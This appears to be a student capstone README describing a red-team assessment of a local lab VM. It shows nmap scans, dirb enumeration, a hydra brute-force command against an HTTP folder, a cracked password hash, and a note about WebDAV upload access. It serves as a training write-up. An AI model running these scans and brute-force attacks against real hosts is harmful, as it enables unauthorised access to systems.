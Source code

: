 -------------------------------------

# Goal of Experiment

1. Recon Capstone VM (DVWA) in a local environment
2. Attacking & Enumerations VM 
3. Blue Team Elk Analysis
4. Mitigation Strategies

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

 > Attacks are NOT PERMITTED to use directly in the azure network. The following experiment is virtualized & local. 

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!


### Red Team Security Assessment
We will later detect all attacks from the blue team perspective and create baselines and thresholds for alerts based upon these attacks.

Jumping into an ACK scan to test the hosts firewall. 

	##### ACK scan to test the firewall
	> ip=192.168.1.105
	> nmap -sA $ip
	> 1000 scan results are unfiltered. 
	
	##### Performing very active port scan
	> nmap -sV -A $ip
	
	22/ ssh 
	80/ apache 2.24.29. The -A option automatically does everything, including traceroutes and maybe dns. We can see a few directories hosted on port 80. 
	
	# dirb
	> dirb $ip/company_folders
	
	results: 
	company_folders/secret_directory
	webdav/ 
	
##### Brute Force over http form 
	# Hydra attack a form over http 
	> hydra -l ashton -P /usr/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
	
> Hydra is unable to work with CSRF tokens.

Credentials allow access into the folder where instructions are left behind by the employees to access webdav. A user by the name of `ryan` and his md5 hash of a password located in /etc/passwd. Using john the rippper, this hash can be creacked `linux4u'. Entrance into the webdav exploit leads us to another vulnerability which will include direct upload access into the webdav folder. 

